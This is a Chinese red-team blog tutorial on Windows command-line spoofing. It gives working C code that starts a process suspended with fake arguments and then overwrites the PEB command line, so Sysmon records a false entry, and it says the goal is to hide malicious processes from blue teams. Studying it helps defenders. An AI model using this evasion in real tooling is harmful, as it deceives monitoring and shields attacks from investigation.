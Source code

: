 ```yaml
---
title: 红蓝对抗-命令行欺骗
date: 2022-11-03
categories: [红蓝对抗]
tags: [红蓝对抗, Windows]
---
```


## 0X00 什么是命令行欺骗

创建进程时，内部**Windows**数据结构**Process Environment Block**将会映射到进程虚拟内存中。该数据结构包含有关进程本身的大量信息，例如已加载模块的列表，以及用于启动进程的命令行。由于**PEB**（以及命令行）存储在进程的内存空间而不是内核空间中，因此只要我们对进程具有适当的权限，就很容易实现对其的覆盖。

## 0x01 为什么要用命令行欺骗

在蓝队排查恶意进程过程中，经常会使用**processexplorer**等进程检查工具进行详细的检测，而通常的恶意进程往往特征会比较明显，而这种技术可以通过伪造**PEB**进程环境块来伪装自己，让自身的特征不那么明显，从而增加存活率，更好的隐藏自己。

## 0x02  实现思路

进程通常可以使用命令行参数来启动。例如，如果我们这样做：

```
C:\Users\redteam>notepad C:\Windows\System32\WindowsCodecsRaw.txt
```

记事本将会启动并打开指定的**WindowsCodecsRaw.txt**文件，而日志工具和流程检查工具可以读取这些参数，因为它们存储在进程本身的进程环境块(**PEB**)中

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-11-03/note.png)

然而，在很多时候，我们可能希望尽可能隐藏我们的命令行参数，以达到隐藏我们的真实意图或误导蓝队的目的。这便可以通过以下步骤实现：

- 在挂起状态下创建一个“假”参数(这是我们想要记录的参数)的进程。 
- 进入到**PEB**并找到**RTL_USER_PROCESS_PARAMETERS**。 
- 用要执行的实际参数覆盖此结构中的命令行参数。 
- 继续该过程。当进程恢复时，它将执行新的参数。 

## 0x03  具体实现

我们可以使用使用带有**Create_SUSPENDED**标志的伪参数来创建目标进程。

```C
#include <iostream>
#include <Windows.h>

int main()
{
    // 使用假参数创建进程
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi;

    WCHAR fakeArgs[] = L"notepad fake_args_test.txt";

    if (CreateProcess(
        L"C:\\Windows\\System32\\notepad.exe",
        fakeArgs,
        NULL,
        NULL,
        FALSE,
        CREATE_SUSPENDED,
        NULL,
        L"C:\\",
        &si,
        &pi))
    {
        printf("Process created: %d", pi.dwProcessId);
    }
}
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-11-03/fake.png)

接下来，我们需要使用本机的**NtQueryInformationProcess API**来查询进程并填充**process_BASIC_INFORATION**结构。此结构的属性之一便是**PEB**的基址。因此，我们需要函数的**typedef**。

```C
#include <iostream>
#include <Windows.h>
#include <winternl.h>

typedef NTSTATUS(*QueryInformationProcess)(IN HANDLE, IN PROCESSINFOCLASS, OUT PVOID, IN ULONG, OUT PULONG);

// 从ntdll.dll解析API的位置
HMODULE ntdll = GetModuleHandle(L"ntdll.dll");
QueryInformationProcess NtQueryInformationProcess = (QueryInformationProcess)GetProcAddress(ntdll, "NtQueryInformationProcess");
```

然后我们调用它。

```C
// 调用NtQueryInformationProcess去读取PROCESS_BASIC_INFORATION
PROCESS_BASIC_INFORMATION pbi;
DWORD length;

NtQueryInformationProcess(
    pi.hProcess,
    ProcessBasicInformation,
    &pbi,
    sizeof(pbi),
    &length);
```

使用**ReadProcessMemory**读取**PEB**。。

```C
// 通过PEB基址读取PEB结构本身
PEB peb;
SIZE_T bytesRead;

ReadProcessMemory(
    pi.hProcess,
    pbi.PebBaseAddress,
    &peb,
    sizeof(PEB),
    &bytesRead);
```

现在，从**PEB**中，我们得到了**ProcessParameters**的位置，接下来读这些东西。

```C
// 读取进程参数
RTL_USER_PROCESS_PARAMETERS rtlParams;

ReadProcessMemory(
    pi.hProcess,
    peb.ProcessParameters,
    &rtlParams,
    sizeof(RTL_USER_PROCESS_PARAMETERS),
    &bytesRead);
```

制作新参数并将其写入命令行的缓冲区。

```C
// 新参数写入命令行的缓冲区
WCHAR newArgs[] = L"notepad C:\\Windows\\System32\\WindowsCodecsRaw.txt";
SIZE_T bytesWritten;

WriteProcessMemory(
    pi.hProcess,
    rtlParams.CommandLine.Buffer,
    newArgs,
    sizeof(newArgs),
    &bytesWritten);
```

最后，继续该过程。

```C
ResumeThread(pi.hThread);
```

记事本现在将打开**WindowsCodecsRaw.txt**，但**Sysmon**已经记录了假参数。

```
Process Create:
ProcessId: 7056
Image: C:\Windows\System32\notepad.exe
CommandLine: notepad fake_args_test.txt
CurrentDirectory: C:\
```

但是如果我们用**Process Hacker**检查它，我们会发现一些有趣的东西。

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-11-03/cmd.png)

它是指向真实文件的路径，并且被截断了。那么这里发生了什么？


首先，**Process Hacker**提供时间点数据。每次我们关闭并重新打开流程的属性窗口时，它都会重新读取**PEB**。所以从逻辑上讲，它现在正在读取我们写入**PEB**的新参数。

其次，这个缓冲区中的数据实际上是一个**UNICODE_STRING**。

```C
struct UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;
}
```

我们可以看到它有一个**Buffer**(保存实际数据)和一个**Length**(数据长度)。创建进程时，它的长度为58(**notepad fake_args_test.txt**)，但新的参数(**notepad C:\Windows\System32\WindowsCodecsRaw.txt**)的长度为96。我们更新的是缓冲区的内容，而不是长度字段；如果我们读取了58个字节的新参数，那么它将会发生上面的情形。

## 0x04 小结

本文介绍了命令行欺骗的实现。

### 注：本文仅用于安全研究和学习之
